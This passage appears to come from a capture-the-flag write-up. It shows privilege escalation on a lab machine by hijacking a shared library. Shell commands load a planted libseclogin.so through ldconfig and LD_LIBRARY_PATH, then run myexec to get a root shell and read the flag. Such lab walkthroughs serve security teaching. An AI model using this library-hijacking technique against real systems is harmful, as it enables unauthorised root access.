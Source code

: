 > Side note: Because we have full control of our local environment, and a copy of the executable and shared library, we can also test our compiled exploit locally first, to iron out any potential bugs before attempting it on the target.


Once it is on the target and in the right folder, we can cover all bases by:

1. Give the shared object library execute permissions
1. Manually link the individual library file with ldconfig
1. Update the LD_LIBRARY_PATH environment variable
1. Tell ldconfig to use the test.conf configuration file instead of /etc/ld.so.conf
1. Retest ldd against myexec to ensure that it will now use our shared object library
1. Run myexec and hope our session gets upgraded

```
genevieve@dab:/tmp$ chmod +x libseclogin.so
genevieve@dab:/tmp$ldconfig -l /tmp/libseclogin.so
genevieve@dab:/tmp$LD_LIBRARY_PATH=/tmp
genevieve@dab:/tmp$ldconfig -f /etc/ld.so.conf.d/test.conf
genevieve@dab:/tmp$ ldd /usr/bin/myexec
	linux-vdso.so.1 =>  (0x00007fff93ffe000)
	libseclogin.so => /tmp/libseclogin.so (0x00007f95282df000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9527cf6000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f95280c0000)

genevieve@dab:/tmp$ myexec
Enter password: s3cur3l0g1n
Password is correct

root@dab:/tmp# cat /root/root.txt
45cd5[REDACTED]6a98e
```

And our exploit worked and we have a root bash session and can read the root.txt.
